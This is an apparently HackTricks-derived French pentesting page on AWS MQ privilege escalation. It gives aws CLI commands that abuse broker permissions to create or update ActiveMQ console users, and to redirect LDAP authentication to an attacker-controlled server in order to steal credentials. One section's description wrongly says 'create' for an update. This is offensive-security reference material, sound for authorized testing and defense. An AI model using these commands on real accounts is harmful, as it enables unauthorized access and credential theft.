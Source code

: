 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

Pour plus d'informations sur MQ, consultez :

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Avec ces permissions, vous pouvez **créer un nouvel utilisateur dans un broker ActimeMQ** (cela ne fonctionne pas dans RabbitMQ) :
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impact potentiel :** Accéder à des informations sensibles en naviguant dans ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Avec ces permissions, vous pouvez **créer un nouvel utilisateur dans un broker ActimeMQ** (cela ne fonctionne pas dans RabbitMQ) :
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impact potentiel :** Accéder à des informations sensibles en naviguant à travers ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Si un courtier utilise **LDAP** pour l'autorisation avec **ActiveMQ**. Il est possible de **changer** la **configuration** du serveur LDAP utilisé pour **un contrôlé par l'attaquant**. De cette manière, l'attaquant pourra **voler tous les identifiants envoyés via LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Si vous pouviez d'une manière ou d'une autre trouver les identifiants originaux utilisés par ActiveMQ, vous pourriez effectuer un MitM, voler les identifiants, les utiliser sur le serveur d'origine et envoyer la réponse (peut-être qu'en réutilisant simplement les identifiants volés, vous pourriez faire cela).

**Impact potentiel :** Voler les identifiants ActiveMQ

{{#include ../../../banners/hacktricks-training.md}}
